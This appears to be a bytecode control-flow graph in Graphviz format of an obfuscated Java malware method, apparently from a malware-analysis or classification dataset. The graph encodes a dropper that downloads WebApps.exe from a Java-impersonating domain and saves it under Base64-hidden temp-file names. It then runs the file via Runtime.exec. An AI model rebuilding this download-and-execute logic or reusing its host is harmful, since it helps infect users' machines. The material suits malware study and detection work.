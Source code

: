 digraph "" {
    "r0 := @this: defgd11.LMkjes"
    "load.r r0"
    "r0 := @this: defgd11.LMkjes"->"load.r r0";
    "virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>"
    "load.r r0"->"virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>";
    "new java.net.URL"
    "virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>"->"new java.net.URL";
    "store.r r0"
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push \"http://www.java-microsystems-update.contech-service.com/black/WebApps.exe\""
    "load.r r0"->"push \"http://www.java-microsystems-update.contech-service.com/black/WebApps.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://www.java-microsystems-update.contech-service.com/black/WebApps.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r r0"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "pop"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r0";
    "new java.io.FileOutputStream"
    "store.r r0"->"new java.io.FileOutputStream";
    "store.r $r4"
    "new java.io.FileOutputStream"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "new java.lang.StringBuilder"
    "load.r $r4"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "new java.lang.String"
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "push \"amF2YS5pby50bXBkaXI=\""
    "dup1.r"->"push \"amF2YS5pby50bXBkaXI=\"";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"
    "push \"amF2YS5pby50bXBkaXI=\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "push \"ZGxuYW1lLmV4ZQ==\""
    "dup1.r"->"push \"ZGxuYW1lLmV4ZQ==\"";
    "push \"ZGxuYW1lLmV4ZQ==\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 153600"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 153600";
    "newarray"
    "push 153600"->"newarray";
    "store.r r34"
    "newarray"->"store.r r34";
    "goto load.r r0"
    "store.r r34"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r34"
    "load.r r0"->"load.r r34";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r34"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifgt load.r $r4"
    "load.i $i0"->"ifgt load.r $r4";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "ifgt load.r $r4"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"pop";
    "pop"->"load.r $r4";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r4"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r0";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.InputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"push \"amF2YS5pby50bXBkaXI=\"";
    "push \"amF2YS5pby50bXBkaXI=\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"push \"ZGxuYW1lLmV4ZQ==\"";
    "push \"ZGxuYW1lLmV4ZQ==\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "ifgt load.r $r4"->"load.r $r4";
    "load.r $r4"->"load.r r34";
    "push 0"
    "load.r r34"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"push 153600";
    "push 153600"->"newarray";
    "newarray"->"store.r r34";
}
